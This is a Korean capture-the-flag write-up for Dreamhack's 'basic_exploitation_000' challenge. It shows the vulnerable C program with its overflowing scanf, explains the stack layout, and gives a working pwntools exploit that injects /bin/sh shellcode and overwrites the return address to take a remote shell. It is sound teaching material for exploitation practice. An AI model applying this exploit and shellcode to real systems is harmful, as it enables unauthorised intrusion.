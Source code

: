 ```c
// Name: basic_exploitation_000.c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

`basic_exploitation_000.c` 코드를 읽어보면, 프로그램을 실행시키면 `buf`의 주소를 얻을 수 있음을 알 수 있다.
따라서 `buf`에 쉘코드를 저장한 후 Return Address를 `buf`의 주소로 수정한다면 쉘을 얻을 수 있으리라는 것을 알 수 있다.
또한, `buf`의 크기는 `0x80`바이트임에도 `scanf("%141s", buf);`를 통해 총 `0x8d`바이트의 문자열을 `buf`에 입력받고 있다.

`basic_exploitation_000.c`의 `main` 함수에서 선언된 변수가 `0x80`바이트의 배열 `buf` 뿐이며, 스택은 `0x10`바이트 단위로 정렬되어야 하므로 `0x80`바이트가 할당되며, 그 뒤 `0x4`바이트가 SFP, 그 뒤 `0x4`바이트가 Return Address이다.
(SFP, Return Address가 `0x4`바이트인 것은 주어진 환경이 32비트 환경이기 때문이다.)
즉, 필요한 문자열의 길이는 `0x88`바이트로, 프로그램이 `stdin`을 통해 입력받는 `0x8d`바이트보다 작으므로 아래의 `pwntools`을 사용한 python 코드를 활용하여 쉘을 탈취할 수 있다.

```python
# Name: exploit.py

from pwn import *
import re
# context.log_level = "debug"
context.arch = "i386"
context.os = "linux"

HOST = "host3.dreamhack.games"
PORT = 23760 # The given port

conn = remote(HOST, PORT)
# conn = process("./basic_exploitation_000")

shellcode = b'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80'
payload = shellcode
payload += asm('nop') * (0x84 - len(payload))

conn.recvuntil('buf = (')
addr = int(conn.recv(10), base=16)
payload += p32(addr)

conn.sendline(payload)
conn.interactive()
```

위 코드에서 `b'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80'`는 `scanf`의 종결문자를 포함하지 않는 쉘코드이며, 구글링을 통해 쉽게 얻을 수 있다.
이제 위와 같이 python 코드를 작성했으면, 아래의 명령어를 통해 쉘을 탈취할 수 있으며, flag를 쉽게 얻을 수 있다.

```bash
$ python3 exploit.py
```